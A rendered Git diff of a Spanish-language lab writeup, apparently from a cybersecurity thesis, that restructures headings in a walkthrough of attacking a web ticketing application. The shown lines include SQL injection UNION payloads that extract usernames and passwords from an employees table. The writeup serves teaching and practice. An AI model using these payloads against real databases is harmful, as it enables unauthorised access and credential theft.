

Before and after one commit to AmasterJT/TFM-Ciber-CEU-Jose-Torre, a Markdown page: writeups/writeup_vulneracion_web_tickets.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
mejoramos la estructura y claridad de los writeups sobre vulneración de tickets y payloads PHP

````diff
--- a/writeups/writeup_vulneracion_web_tickets.md
+++ b/writeups/writeup_vulneracion_web_tickets.md
@@ -121,18 +113,14 @@ FROM information_schema.columns
 WHERE table_name = 'empleados'#
 ```
 
----
-
-## 🔴 10. Extraer usuarios
+### 10. Extraer usuarios
 
 ```text
 ' UNION SELECT group_concat(username separator ' | '),'B','C','D','E','F'
 FROM empleados#
 ```
 
----
-
-## 💥 11. Extraer credenciales
+### 11. Extraer credenciales
 
 ```text
 ' UNION SELECT group_concat(username,':',password separator ' | '),'B','C','D','E','F'
@@ -141,7 +129,7 @@ FROM empleados#
 
 ---
 
-## 🧠 Puntos clave del aprendizaje
+## 🧠 Puntos clave
 
 - SQLi en endpoint público.
 - Uso de ORDER BY.
@@ -150,21 +138,7 @@ FROM empleados#
 - Uso de `information_schema`.
 - Uso de `group_concat`.
 
----
 
-## 🏁 Resumen final
-
-1. Detectar SQLi.
-2. Contar columnas.
-3. Usar UNION.
-4. Enumerar base de datos.
-5. Extraer datos.
-
----
-
-# 📸 Evidencias gráficas
-
-## Figura 1. Extracción de credenciales mediante SQL Injection
 
 <p align="center">
   <img src="./img/leak-databas-tickets.png" width="850">
````
Also changed, not shown: other parts of writeups/writeup_vulneracion_web_tickets.md (+10 -18 lines), writeups/payloads_php.md (+12 -3 lines).
